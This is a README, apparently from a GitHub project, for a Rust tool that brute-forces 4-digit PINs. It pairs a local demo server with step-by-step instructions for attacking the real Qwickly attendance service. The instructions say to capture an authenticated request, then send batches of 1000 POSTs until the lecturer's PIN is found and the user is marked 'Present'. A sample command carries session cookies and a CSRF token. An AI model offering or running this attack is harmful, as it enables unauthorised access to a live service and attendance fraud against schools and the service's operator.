 # Crack Remote Pin
Rust example of cracking a 4-digit pin on a remote server.  

The cracking HTTP requests are executed asynchronously, so the futures will take some time to build up to 10000 in a vector and then executed at once roughly (there are probably better ways to do this, but I've found this to work well enough for 10k).  

1. Start the pin server
```
cd pin_server
cargo run
```

2. Crack the pin on the running server
```
cd cracker
cargo run
```

## Qwickly Attendance Crack
The qwickly attendance checker asks for a 4-digit pin, which a lecturer will share with the class on a screen. Luckily qwickly don't have any spam-defense mechanisms at all, I can make 1000 POST requests with different pins in a short space of time without it preventing it.

The request needs to be crafted properly though to post without hitting an error:

1. Visit Qwickly attendance tracker page and just make a request for pin "0001", have "network" tab of browser tools open and "copy as cURL" the request

2. Take the required fields out of that and use it in the command make sure to replace "0001" with "{pin}" in the data content, for example: 

```
qwickly_cracker --referer 'https://www.qwickly.tools/attendance/takerecord/?code=BuYAp0o5b11JNFonnZtFrqWxYX2xAI3B&' --user-agent 'Mozilla/5.0 (X11; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0' --cookie 'AWSALB=AoMLFg/sY5unylBB4wo1UuftVvB74l2QvqGuwUZZzkBBPD+04k7cu0Py692RPzeMSdmMSJxUqKhsFWj8X162GHWtMWjr9IPAyE8FTMNXC98aawjJqkylnkNLhKeb; AWSALBCORS=AoMLFg/sY5unylBB4wo1UuftVvB74l2QvqGuwUZZzkBBPD+04k7cu0Py692RPzeMSdmMSJxUqKhsFWj8X162GHWtMWjr9IPAyE8FTMNXC98aawjJqkylnkNLhKeb; sessionid=if3l9orgzd7ydeah0baqn7ynlg2anp1w' --data-no-pin 'csrfmiddlewaretoken=MpUgZaDVxhfOq41BuGIrIGHXzUz8pfWrLiApCa7XM7OTISwq50dx7hvLQnvYiTZV&check_in_pin={pin}&student_check_in=Check+In&check_in_id=' --start 2000 --end 3000 > crack_2000_3000
```

3. Profit, right now the cracker requires you to stay to a 1000 limit or it just drops and doesn't check all the pins(probably OS-level too many TCP connections being opened), so go for 1000-2001, 2000-3001, and chances are you'll crack it by 5000-6001. Once the cracker hits the correct pin it'll print it, and on qwickly you'll get marked as "Present" lol
